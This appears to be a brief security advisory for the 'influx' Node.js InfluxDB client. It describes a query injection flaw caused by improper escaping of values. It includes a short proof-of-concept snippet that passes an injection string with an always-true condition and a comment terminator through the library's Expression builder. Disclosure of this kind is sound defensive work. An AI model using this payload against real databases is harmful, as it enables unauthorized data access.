 # Overview

`influx` is an InfluxDB Client for Node.js and Browsers.

This package is vulnerable to SQL Injection (SQLi) due to improperly escaping value input.

# Proof of Concept

```
const influx = require('influx')
const exp = new influx.Expression();
exp.tag('symbol').equals.value("GAZP()\\' or 1=1 --").toString()
```

